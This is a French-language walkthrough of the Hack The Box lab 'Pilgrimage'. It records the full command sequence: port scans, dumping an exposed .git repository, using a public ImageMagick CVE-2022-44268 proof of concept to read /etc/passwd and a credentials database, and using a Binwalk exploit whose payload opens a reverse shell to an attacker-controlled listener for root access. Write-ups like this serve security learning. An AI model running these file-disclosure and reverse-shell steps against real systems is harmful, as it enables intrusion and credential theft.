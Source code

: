 # Pilgrimage

	echo "10.10.11.219 pilgrimage.htb" >> /etc/hosts
	sudo masscan -p1-65535,U:1-65535 10.10.11.219 -e tun0 > ports.txt
	sudo nmap -p- -sV -T4 10.10.11.219 -oN nmap.txt
	feroxbuster --silent -u http://pilgrimage.htb

Scans classiques.

	PORT STATE SERVICE VERSION  
	22/tcp open ssh OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)  
	80/tcp open http nginx 1.18.0

La page d'accueil du site est simplement une fonctionnalité de rétrécissement d'images. Il y a une page de login et une page d'enregistrement mais elles renvoient systématiquement des erreurs et il semble impossible de s'enregistrer. 

En revanche, avec les scans j'ai trouvé un dossier http://pilgrimage.htb/.git/ en 403 et un fichier http://pilgrimage.htb/.git/HEAD que j'ai pu télécharger. 

Scans complémentaires : 

	ffuf -u http://pilgrimage.htb/.git/FUZZ -w ~/wordlists/dirb_big.txt -e .pdf,.php,.txt,.ini,.conf,.log,.html,.js,.bak,.zip -fc 403
	feroxbuster --silent -u http://pilgrimage.htb/.git/
	dirb http://pilgrimage.htb/.git/
	
La plupart des sous-dossiers testés à la main renvoient une 403 mais j'ai décidé de fiabiliser le processus : 

	python3 ~/git-dumper.py http://pilgrimage.htb/.git/ ~/dump
	cd ~/dump/
	tree -a

Rien d'intéressant dans le dossier .git/ mais on a l'exécutable utilisé pour la réduction d'image : 

	./magick --version

> Version: ImageMagick 7.1.0-49 beta Q16-HDRI x86_64 c243c9281:20220911

Voir : 
  - https://www.metabaseq.com/imagemagick-zero-days/
  - https://github.com/voidz0r/CVE-2022-44268

</br>

    git clone https://github.com/voidz0r/CVE-2022-44268
    cd  CVE-2022-44268
    cargo run "/etc/passwd"

	
Retourner sur le site web et rétrécir l'image obtenue avec la fonctionnalité du site.
</br>Noter l'URL obtenue.
</br>Convertir le résultat obtenu en hexadécimal.

	curl http://pilgrimage.htb/shrunk/64bce0ae178b5.png --output resultat.png
	identify -verbose resultat.png
	echo "726f6f743a...16c73650a" | xxd -r -p
	

J'obtiens bien le fichier **/etc/passwd** du serveur. 
</br>Ma première idée était d'aller chercher les clés SSH des utilisateurs ayant un shell de type **/bin/bash** mais cela n'a fonctionné pour aucun d'entre eux. Il fallait en fait se diriger vers la base de données que l'on trouve dans la page **dashboard.php** : **/var/db/pilgrimage**

Je répète l'opération : 

	cargo run "/var/db/pilgrimage"
	...
	curl http://pilgrimage.htb/shrunk/64bced05eef1e.png --output resultat.png
	identify -verbose resultat.png
	echo "53514c697465...000000000" | xxd -r -p

On obtient le mot de passe pour Emily.

	ssh emily@10.10.11.219
	cat user.txt

### Élévation de privilèges : 

Je vois qu'il y a un Pspy déjà installé dans le dossier d'Emily, cela a l'air d'être un gros indice et je l'ai lancé en parallèle dans une deuxième fenêtre au cas où.

	./pspy64

> 2023/07/23 19:12:39 CMD: UID=0 PID=711 | /bin/bash /usr/sbin/malwarescan.sh

	cat /usr/sbin/malwarescan.sh
	
Ce script surveille le dossier **/var/www/pilgrimage.htb/shrunk/** et inspecte le contenu des images qui arrivent dedans avec **Binwalk**.

	binwalk -h 

> Binwalk v2.3.2

Des exploits existent pour cette version de Binwalk.
</br>Voir : https://www.exploit-db.com/exploits/51249

	python3  ~/000_exploits/exploit_Binwalk_v2.3.2.py resultat.png 10.10.16.26 9999
	sudo cp binwalk_exploit.png /var/www/html
	rlwrap nc -nvlp 9999
	==========
	wget http://10.10.16.26/binwalk_exploit.png
	cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/image.png
	ls /var/www/pilgrimage.htb/shrunk/

Ne pas hésiter à reproduire l'exploit directement en local dans la machine cible pour fiabiliser. 
</br>Renommer les images pour avoir plusieurs versions en parallèle et multiplier les chances de déclencher le shell. 
</br>J'obtiens la connexion quelques minutes après : 

	...
	whoami
	cat /root/root.txt

